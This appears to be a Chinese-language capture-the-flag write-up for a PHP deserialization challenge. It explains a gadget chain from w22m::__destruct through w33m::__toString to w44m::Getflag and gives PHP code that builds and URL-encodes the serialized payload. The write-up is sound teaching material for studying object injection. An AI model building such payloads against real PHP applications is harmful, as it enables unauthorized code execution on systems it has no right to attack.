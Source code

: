 让我们尝试来理解题目的代码逻辑：

题目要求我们调用w44m类中的Getflag（）函数并且使得

$admin=w44m

$passwd=08067

时得到flag

w22m类中有一个 `$w00m`属性，并且还有一个魔术方法__desturt(),当对象被销毁时会自动调用。在这个方法里，它会尝试输出 `$w00m` 的值

w33m类中有一个 `$w00m`属性和 `$w22m`属性，还有一个魔术方法__toString(),当对象被当作字符串使用时会自动调用。在这个方法里，它会调用 `$w00m` 对象中名为 `$w22m` 的方法

通过编写序列化代码来尝试解决

```
<?php

class w44m
{
    private $admin = 'w44m';
    protected $passwd = '08067';
}

class w22m
{
    public $w00m;
}

class w33m
{
    public $w00m;
    public $w22m;
}

$w44m = new w44m();
$w22m = new w22m(); 
$w33m = new w33m();

$w33m->w00m = $w44m;
$w33m->w22m = 'Getflag';
$w22m->w00m = $w33m;


$playload = serialize($w22m);
echo urlencode($playload);
?>
```

然后尝试简化一点的代码逻辑,要获取flag，需要构造一个特定的反序列化载荷，利用PHP对象注入触发方法调用链，使得最终执行 `w44m::Getflag()(要求admin=w44m，passwd=08067，利用反序列化修改w44m的私有属性admin和受保护属性passwd)`

w22m的__destruct方法会输出w00m属性
